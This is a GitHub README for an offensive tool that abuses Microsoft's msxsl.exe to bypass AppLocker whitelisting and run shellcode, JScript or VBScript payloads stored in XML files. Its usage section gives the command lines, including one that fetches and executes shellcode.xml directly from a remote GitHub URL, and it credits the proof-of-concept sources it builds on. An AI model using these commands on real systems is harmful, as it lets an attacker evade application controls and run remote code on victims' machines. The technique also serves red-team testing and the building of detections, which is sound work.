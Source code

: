 # Use-msxsl-to-bypass-AppLocker

Learn from Casey Smith@subTee

https://twitter.com/subTee/status/877616321747271680

### Usage:

	msxsl.exe argv1.xml shellcode.xml/JScript.xml/VBScript.xml
	
	or
	
	msxsl.exe shellcode.xml/JScript.xml/VBScript.xml shellcode.xml/JScript.xml/VBScript.xml
	
	or remote execution(Evi1cg told me)，like this:
	
	msxls.exe https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml

### shellcode.xml:

Use msxsl to run shellcode.

Combine Casey Smith's msxsl POC and Cn33liz's StarFighters.

Link:

	https://gist.github.com/subTee/d9380299ff35738723cb44f230ab39a1   
	https://github.com/Cn33liz/StarFighters/blob/master/StarFighter.js

### JScript.xml:

Use JScript to run calc.exe

From: https://gist.github.com/subTee/d9380299ff35738723cb44f230ab39a1#file-script-xsl

### VBScript.xml:

Use VBScript to run calc.exe

Details：

https://3gstudent.github.io/3gstudent.github.io/Use-msxsl-to-bypass-AppLocker/
